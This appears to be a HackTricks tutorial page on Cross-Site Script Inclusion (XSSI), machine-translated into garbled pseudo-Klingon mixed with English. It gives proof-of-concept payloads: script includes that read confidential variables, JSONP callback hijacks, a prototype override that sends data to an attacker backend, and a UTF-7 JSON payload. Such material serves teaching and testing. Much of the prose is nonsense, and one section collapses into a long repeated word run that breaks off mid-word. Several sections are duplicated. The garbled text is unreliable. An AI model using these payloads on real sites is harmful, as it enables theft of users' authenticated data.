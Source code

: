 # XSSI (Cross-Site Script Inclusion)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>!HackTricks</strong></a><strong>!</strong> 'oH</summary>

HackTricks vItlhutlh:

* **HackTricks** 'oH **tlhIngan Hol** vItlhutlh 'ej **HackTricks** 'oH **PDF** vItlhutlh [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop) vItlhutlh!
* [**PEASS & HackTricks swag**](https://peass.creator-spring.com) vItlhutlh
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) vItlhutlh, **NFTs** [**opensea.io**](https://opensea.io/collection/the-peass-family) vItlhutlh
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) 'ej [**telegram group**](https://t.me/peass) vItlhutlh 'ej **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **HackTricks** 'ej **HackTricks Cloud** github repos vItlhutlh **PRs** jImej.

</details>


## Basic Information

**Cross-Site Script Inclusion (XSSI)** 'oH vulnerability 'e' vItlhutlh `script` tag HTML. 'ach resources, 'oH **Same-Origin Policy (SOP)**, 'ach, scripts vItlhutlh included different domains. vItlhutlh 'oH behavior intended libraries 'ej resources hosted different servers 'ach introduces potential security risk.

### Key Characteristics of **XSSI**:
- **Bypass of SOP**: Scripts vItlhutlh exempt **Same-Origin Policy**, allowing vItlhutlh included across domains.
- **Data Exposure**: 'ach attacker vItlhutlh exploit behavior read data loaded `script` tag.
- **Impact on Dynamic JavaScript/JSONP**: **XSSI** 'oH particularly relevant dynamic JavaScript 'ej **JSON with Padding (JSONP)**. 'ach technologies often use "ambient-authority" information (like cookies) authentication. script request vItlhutlh made different host, credentials (e.g., cookies) automatically included request.
- **Authentication Token Leakage**: 'ach attacker vItlhutlh trick user's browser requesting script server they control, vItlhutlh access sensitive information contained requests.

### Types

1. **Static JavaScript** - 'oH represents conventional form XSSI.
2. **Static JavaScript with Authentication** - 'oH type distinct because authentication vItlhutlh access.
3. **Dynamic JavaScript** - Involves JavaScript dynamically generates content.
4. **Non-JavaScript** - Refers vulnerabilities involve JavaScript directly.

**The following information sumary [https://www.scip.ch/en/?labs.20160414](https://www.scip.ch/en/?labs.20160414)**. vItlhutlh further details.

### Regular XSSI
In this approach, private information embedded within globally accessible JavaScript file. Attackers vItlhutlh identify files using methods file reading, keyword searches, regular expressions. Once located, script containing private information vItlhutlh included malicious content, allowing unauthorized access sensitive data. example exploitation technique shown below:
```html
<script src="https://www.vulnerable-domain.tld/script.js"></script>
<script> alert(JSON.stringify(confidential_keys[0])); </script>
```
### Dynamic-JavaScript-based-XSSI and Authenticated-JavaScript-XSSI
**tlhIngan Hol translation:**

**Dynamic-JavaScript-based-XSSI and Authenticated-JavaScript-XSSI**
**'ej** XSSI attacks **vItlhutlh** confidential information **'e'** dynamically added **script** response **user's request**. Detection **vItlhutlh** performed **sending requests** **cookies** **'ej** comparing **responses**. **'ach** information **Doch** **Doch** indicate **presence** confidential information. **vaj** process **vItlhutlh** automated **tools** **DetectDynamicJS** Burp extension.

**confidential data** **vItlhutlh** stored **global variable**, **exploited** **methods** **Regular XSSI** **vItlhutlh** used. **'ach** confidential data **vItlhutlh** included **JSONP response**, attackers **hijack** callback function **retrieve** information. **vaj** **vItlhutlh** manipulating **global objects** **setting** function **executed** **JSONP response**, **demonstrated** below:
```html
<script>
var angular = function () { return 1; };
angular.callbacks = function () { return 1; };
angular.callbacks._7 = function (leaked) {
alert(JSON.stringify(leaked));
};
</script>
<script src="https://site.tld/p?jsonp=angular.callbacks._7" type="text/javascript"></script>
```

```html
<script>
leak = function (leaked) {
alert(JSON.stringify(leaked));
};
</script>
<script src="https://site.tld/p?jsonp=leak" type="text/javascript"></script>
```
### XSSI (Cross-Site Script Inclusion)

For variables not residing in the global namespace, *prototype tampering* can sometimes be exploited. This technique leverages JavaScript's design, where code interpretation involves traversing the prototype chain to locate the called property. By overriding certain functions, such as `Array`'s `slice`, attackers can access and leak non-global variables:

### XSSI (Cross-Site Script Inclusion)

ghItlhvamDaq *prototype tampering* vItlhutlh. vaj JavaScript vItlhutlh, 'ej vItlhutlhDaq code interpretation involves the prototype chain to locate the called property. 'ej 'ejwI'vam 'ejwI'vam, 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejwI'vam 'ejw
```javascript
Array.prototype.slice = function(){
// leaks ["secret1", "secret2", "secret3"]
sendToAttackerBackend(this);
};
```
### Non-Script-XSSI
Takeshi Terada's research introduces another form of XSSI, where Non-Script files, such as CSV, are leaked cross-origin by being included as sources in a `script` tag. Historical instances of XSSI, such as Jeremiah Grossman’s 2006 attack to read a complete Google address book and Joe Walker’s 2007 JSON data leak, highlight the severity of these threats. Additionally, Gareth Heyes describes an attack variant involving UTF-7 encoded JSON to escape the JSON format and execute scripts, effective in certain browsers:

### Non-Script-XSSI
Takeshi Terada's research introduces another form of XSSI, where Non-Script files, such as CSV, are leaked cross-origin by being included as sources in a `script` tag. Historical instances of XSSI, such as Jeremiah Grossman’s 2006 attack to read a complete Google address book and Joe Walker’s 2007 JSON data leak, highlight the severity of these threats. Additionally, Gareth Heyes describes an attack variant involving UTF-7 encoded JSON to escape the JSON format and execute scripts, effective in certain browsers:
```javascript
[{'friend':'luke','email':'+ACcAfQBdADsAYQBsAGUAcgB0ACgAJwBNAGEAeQAgAHQAaABlACAAZgBvAHIAYwBlACAAYgBlACAAdwBpAHQAaAAgAHkAbwB1ACcAKQA7AFsAewAnAGoAbwBiACcAOgAnAGQAbwBuAGU-'}]
```

```html
<script src="http://site.tld/json-utf7.json" type="text/javascript" charset="UTF-7"></script>
```
<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
